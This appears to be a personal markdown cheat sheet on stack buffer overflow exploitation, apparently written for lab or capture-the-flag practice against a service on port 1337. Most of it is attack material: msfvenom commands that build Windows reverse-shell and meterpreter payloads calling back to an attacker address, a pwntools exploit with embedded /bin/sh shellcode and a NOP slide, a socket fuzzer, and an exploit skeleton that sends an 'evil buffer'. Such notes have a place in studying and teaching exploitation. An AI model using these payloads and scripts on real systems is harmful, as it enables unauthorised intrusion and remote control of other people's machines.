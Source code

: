 # Buffer Overflow

 Write more than the capacity of the memory
- Generating cyclic patterns
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

- [Buffer overflow Cheat Sheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)


## Methods

1. Connect to target: **nc 10.10.9.228 1337**
2. Define local folder for mona: **!mona config -set workingfolder c:\Users\admin\Desktop\patota**
3. Send characters to find offsed: **python3 fuzzer.py**
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ###
   - exploit

4. Find offset: !mona findmsp -distance DISTANCE == Find Offset EIP
4. Fider ofsset 2: /usr/bin/msf-pattern_offset -l DISTANCE -q EIP Register

5. Set new return after offset: **retn = BBBB**
6. Set list o chars excluding badhchar: **!mona bytearray -b "\x00"**

7. Find next bad chars: **!mona compare -f C:\Users\admin\Desktop\patota\bytearray.bin -a ESP**

8. Find ESP address after eliminating bad chars: **!mona jmp -r esp -cpb "\x00\x01"**

9. New return address is the **jmp** found.
retn = jmp

10. Generate reverse shells:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 EXITFUNC=thread -b "BAD_CHARS" -f c

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.255 LPORT=4444 -f rb -b "BAD_CHARS" -f c

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.255 LPORT=4444 -b "BAD_CHARS" -f py -v shellcode

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -b "\x00" -f python --var-name shellcode EXITFUNC=thread 

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -b "\x00" -f c

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -e x86/shikata_ga_nai -f py -b "\x00"
```

## GDB

```
from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
```

- Method 1
  - Generate payload with metasploit
  - identify the value in the register (gdb i r)
  - compare patter offset
    - /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l # -q memory

- Method 2
  - Override EIP
  - Total to Override - EIP-Space
- Debugger - Reverse Engineering
  - gdb debugger
    - set exec-wrapper env -u LINES -u COLUMNS
    - run
      - Input - Buffer = Overflow
    - Find addresses:
      - disassemble [Funcion_Name]
      - print& function_Name = shows first address
    - Examine the dump hex code
      - x/100x $rsp-200
    - Show all registers
      - i r
  - [r2](https://github.com/radareorg/radare2)

- NOP instruction
  - no operation instruction = does nothing = \x90
  - python -c "print 'NOP'*no_of_nops + 'shellcode' + 'random_data'*no_of_random_data + 'memory address'"

## PWN Tools

- Debug exploit
- Commands
  - Stack canaries: detection of stack overflow
  - NX: non-executable, set memory segment to be writable or executable
  - PIR: Position Independent Executable: program dependencies into rando location

- Control EIP/RIP (instruction pointer) to execute overflow
  
- Cyclic
  - create customized overflows
  - padding = space until return address (EIP)

- Networking
  - Generate payload to overwrite eip
  
- Shellcraft
  - shell payload craft
  - find EIP with cyclic
  - find ESP ==> + 200 offset
  - How to point EIP to shellcode?
    - NOP = space holder = pass te eip to the next space
    - big lading pad of NPS + direct EIP to middle of stack = we land in our NOP + NOP will pass the eip to our code
  - payload: shellcraft
    - -f a = asci
    - -f s = string
    - shellcraf i386.linux.sh
    - shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f 

```
from pwn import *

proc = process('./intro2pwnFinal')

proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510+200)

nop_slide = "\x90"*1000

# shellcraft i386.linux.sh

# shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)

proc.interactive()
```

## Script Fuzzer
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.9.228"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Script Strings
```
#listRem = "\\x11".split("\\x")
#

for x in range(1, 256):
  #if "{:02x}".format(x) not in listRem:
    print("\\x" + "{:02x}".format(x), end='')
print()

```

## Exploit
```
import socket

ip = "10.10.9.228"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```